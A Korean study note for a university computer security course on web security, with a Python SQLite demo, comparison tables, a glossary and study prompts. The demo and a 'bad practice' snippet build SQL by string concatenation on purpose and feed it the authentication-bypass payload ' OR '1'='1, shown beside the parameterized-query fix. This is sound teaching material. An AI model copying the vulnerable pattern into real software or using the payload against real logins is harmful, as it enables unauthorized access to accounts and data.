> **20. 정답: O** — `'1'='1'`은 항상 참이므로 WHERE 조건 전체를 참으로 만들어 인증 우회를 유발한다.

</details>

---

## 🧪 자유 회상 연습 (Free Recall)

> **방법**: 위의 노트를 모두 덮고, 타이머 3분 설정 후 이번 단원에서 배운 내용을 기억나는 대로 자유롭게 적으세요.
> 정확한 문장이 아니어도 됩니다. 키워드, 관계 등 떠오르는 것을 모두 적습니다.

**자유 회상 작성란:**

```
[여기에 기억나는 내용을 자유롭게 작성]


```

> **회상 후 점검**: 노트를 다시 펼쳐 빠뜨린 내용을 확인하세요. 빠뜨린 부분이 실제 취약점입니다.
> - 회상 못한 핵심 개념: [                ]
> - 회상 못한 방어 기법: [                ]
> - 회상 못한 무선 보안 규격: [                ]

---

## 💻 코드로 확인하기 (Code Verification)

> 웹 보안은 실습 중심이라 **SQL injection의 원리와 방어(매개변수화 쿼리)**를 SQLite로 시연한다.

```python
# SQL injection의 원리와 방어(매개변수화 쿼리)를 SQLite로 시연
import sqlite3

# 1. 임시 사용자 DB 구성
conn = sqlite3.connect(":memory:")
cur = conn.cursor()
cur.execute("CREATE TABLE users (id TEXT, pw TEXT)")
cur.execute("INSERT INTO users VALUES ('admin', 's3cret')")
cur.execute("INSERT INTO users VALUES ('alice', 'pw123')")
conn.commit()

# 2. 취약한 방식: 사용자 입력을 문자열로 직접 연결
def login_vulnerable(user_id, user_pw):
    query = f"SELECT * FROM users WHERE id = '{user_id}' AND pw = '{user_pw}'"
    return cur.execute(query).fetchall()

print("정상 시도 :", login_vulnerable("admin", "wrong"))        # 실패해야 정상
print("공격 시도 :", login_vulnerable("admin", "' OR '1'='1"))  # 인증 우회 발생

# 3. 안전한 방식: 매개변수화 쿼리(? 바인딩)
def login_safe(user_id, user_pw):
    query = "SELECT * FROM users WHERE id = ? AND pw = ?"
    return cur.execute(query, (user_id, user_pw)).fetchall()

print("안전코드 공격 :", login_safe("admin", "' OR '1'='1"))
conn.close()
```

> **실행 결과**:
> ```
> 정상 시도 : []
> 공격 시도 : [('admin', 's3cret'), ('alice', 'pw123')]
> 안전코드 공격 : []
> ```
> **보안적 해석**:
> - 취약한 코드는 `' OR '1'='1` 페이로드로 조건이 항상 참이 되어 **전체 행이 반환(인증 우회)**된다.
> - 매개변수화 쿼리는 입력을 코드가 아닌 **데이터로 바인딩**하므로 동일한 페이로드를 넣어도 일치하는 사용자가 없어 빈 결과를 반환한다.
> - 실무에서는 ORM·Prepared Statement를 기본으로 쓰고, 입력 검증·최소권한 DB 계정을 함께 적용한다.

---

## 🤖 AI 연결고리 (Concept → AI Application)

| 보안 개념 | AI/ML 적용 분야 | 구체적 사례 |
| :--- | :--- | :--- |
| SQL injection 탐지 | 웹 침입 탐지 | 요청 파라미터 패턴 학습으로 인젝션 시도 분류 |
| XSS 탐지 | 악성 페이로드 분류 | 입력 문자열의 스크립트 토큰 특징 기반 탐지 |
| 웹 트래픽 분석 | 이상 탐지(WAF) | 정상 요청 분포 학습 후 이탈 요청 차단 |
| 무선 트래픽 | 무선 침입 탐지(WIDS) | 비정상 인증·프레임 패턴으로 로그(rogue) AP 탐지 |

---

## 📖 심화 학습 예시 답안

#### 1. SQL injection이 성립하는 내부 동작 원리
정의를 넘어, 왜 SQL injection이 가능한지 단계별로 살펴본다.

1. **입력과 코드의 혼합**: 애플리케이션이 사용자 입력 문자열을 SQL 문 텍스트에 그대로 이어 붙여 하나의 쿼리 문자열을 만든다.
2. **파서의 해석**: DB 엔진은 완성된 문자열을 SQL로 파싱하므로, 입력 안의 `'`, `OR`, `--` 등이 **데이터가 아닌 SQL 문법 요소**로 해석된다.
3. **논리 변경**: `' OR '1'='1` 같은 입력은 WHERE 조건을 항상 참으로 만들어 인증 우회·전체 조회를 유발한다.
4. **방어의 핵심**: 매개변수화 쿼리는 쿼리의 **구조(코드)**를 먼저 컴파일하고 입력을 나중에 **값(데이터)**으로 바인딩하므로, 입력이 결코 SQL 문법으로 해석되지 않는다.

#### 2. SQL injection vs XSS 비교표
| 구분 | SQL injection | XSS | 비고 |
| :--- | :--- | :--- | :--- |
| **정의** | SQL 문에 악성 SQL 삽입 | 웹 페이지에 악성 스크립트 삽입 | |
| **실행 위치** | 서버 측(DB) | 클라이언트 측(브라우저) | 표적이 다름 |
| **주요 피해** | 데이터 유출·인증 우회·변조 | 세션·쿠키 탈취, 화면 위변조 | |
| **AI 활용** | 요청 파라미터 기반 인젝션 탐지 | 입력 토큰 기반 악성 스크립트 분류 | |
| **대표 방어** | 매개변수화 쿼리, 최소권한 | 출력 인코딩, CSP, HttpOnly | |

#### 3. 웹 입력 처리 Best Practice (Bad vs Good)
- **Bad Practice (나쁜 예시)**
  ```python
  # 사용자 입력을 쿼리 문자열에 직접 연결 → SQL injection 취약
  query = "SELECT * FROM users WHERE id = '" + user_id + "'"
  cur.execute(query)
  ```
- **Good Practice (좋은 예시)**
  ```python
  # 매개변수화 쿼리로 입력을 데이터로 분리
  cur.execute("SELECT * FROM users WHERE id = ?", (user_id,))
  ```
- **설명**: 좋은 예시는 쿼리 구조를 고정하고 입력을 바인딩하므로 입력값이 SQL 문법으로 해석되지 않는다. XSS도 같은 원리로, 출력 시 입력을 **코드가 아닌 텍스트로 처리(인코딩)**하는 것이 핵심이다.

---

## 📚 핵심 용어집 (Glossary)

| 용어 (한) | 용어 (영) | 표현/약어 | 정의 |
| :--- | :--- | :--- | :--- |
| **웹 보안** | Web Security | - | 웹 서버·클라이언트·통신의 기밀성·무결성·가용성 보장 |
| **SQL 삽입** | SQL Injection | - | SQL 문에 악성 SQL을 삽입하는 서버 측 공격 |
| **크로스 사이트 스크립팅** | Cross-Site Scripting | XSS | 웹 페이지에 악성 스크립트를 삽입해 브라우저에서 실행시키는 공격 |
| **사이트 간 요청 위조** | Cross-Site Request Forgery | CSRF | 인증 세션을 악용한 위조 요청 공격 |
| **콘텐츠 보안 정책** | Content Security Policy | CSP | 스크립트 출처를 제한해 XSS를 완화하는 정책 |
| **매개변수화 쿼리** | Prepared Statement | - | 입력을 데이터로 바인딩해 SQL injection을 막는 기법 |
| **무선 보안 네트워크** | Robust Security Network | RSN / 802.11i | 무선 LAN 보안 표준(인증·키관리·기밀성·무결성) |
| **와이파이 보호 접속** | Wi-Fi Protected Access | WPA/WPA2/WPA3 | 무선 LAN 보안장비 인증 규격 |
| **전송계층 보안** | TLS/SSL | HTTPS | 통신 채널 암호화·무결성 보호 (→ [8강](8강.md)) |

---

## 🤖 AI 학습 파트너를 위한 추가 자료

### 1. 개념 이해를 위한 심층 질문 프롬프트
> **프롬프트 예시**: "SQL injection의 원리를 비전공자도 이해할 수 있게 '식당 주문서에 몰래 명령을 끼워 넣는' 비유로 설명해 줘. 그리고 매개변수화 쿼리가 왜 이를 근본적으로 막는지 알려줘."

### 2. 문제 해결 능력 강화를 위한 시나리오 프롬프트
> **프롬프트 예시**: "당신은 웹 보안 엔지니어입니다. 사용자 입력을 받는 게시판이 있을 때 SQL injection과 XSS를 동시에 막기 위한 점검 항목과 적용 순서를 우선순위와 함께 제시해 줘."

### 3. 개념 검증·반박 프롬프트
> **프롬프트 예시**: "다음 주장을 비판적으로 검토해 줘.
> 'HTTPS를 적용하면 SQL injection과 XSS를 막을 수 있다.'
> 1. 이 주장이 옳은지 통신 계층과 애플리케이션 계층 관점에서 판단하고,
> 2. 틀렸다면 올바른 방어책을 제시해 줘."

---

## 🔄 복습 체크 (Spaced Repetition)
- [ ] 1일 후 복습 (날짜: 2026-05-30)
- [ ] 3일 후 복습 (날짜: 2026-06-01)
- [ ] 7일 후 복습 (날짜: 2026-06-05)
- [ ] 14일 후 복습 (날짜: 2026-06-12)
- [ ] 30일 후 복습 (날짜: 2026-06-28)

### 복습 시 자가 평가
| 회차 | 날짜 | 이해도 (1-5) | 취약 부분 메모 |
| :--- | :--- | :--- | :--- |
| 1차 | | | |
| 2차 | | | |
| 3차 | | | |

---

## 📚 참고 자료 (References)

- KNOU 교재 — 컴퓨터보안 10강(웹 보안 및 모바일 보안) 본문 및 학습정리
- OWASP Top 10 (SQL Injection, XSS, CSRF 관련 항목)
- IEEE 802.11i (RSN) / Wi-Fi Alliance WPA·WPA2·WPA3 규격 문서
- 8강 전송계층 보안(SSL/TLS) 노트 (선수 지식 연결: [8강](8강.md))
- William Stallings, *Cryptography and Network Security* — 웹·무선 보안 장
